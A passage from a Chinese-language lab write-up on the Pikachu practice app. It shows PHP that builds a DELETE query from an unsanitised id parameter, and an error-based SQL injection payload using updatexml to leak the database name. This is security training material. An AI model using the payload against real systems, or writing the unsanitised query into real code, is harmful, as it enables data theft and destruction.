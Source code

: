 ![image](../../../img/渗透/实验/pikachu/51.png)

后面爆剩下的略，累了

### "delete" 注入
**服务器端核心代码**
```php
// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
//没对传进来的id进行处理，导致DEL注入
if(array_key_exists('id', $_GET)){
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        header("location:sqli_del.php");
    }else{
        $html.="<p style='color: red'>删除失败,检查下数据库是不是挂了</p>";
    }
}
```

**漏洞利用**

抓包 `GET /pikachu/vul/sqli/sqli_del.php?id=1 HTTP/1.1`

参数 id 可以尝试 sql 报错注入，构造 payload

`1 or updatexml(1,concat(0x7e,database()),0)`

通过Burp Suite中自带的URL转换编码来转换替换ID

![image](../../../img/渗透/实验/pikachu/53.png)
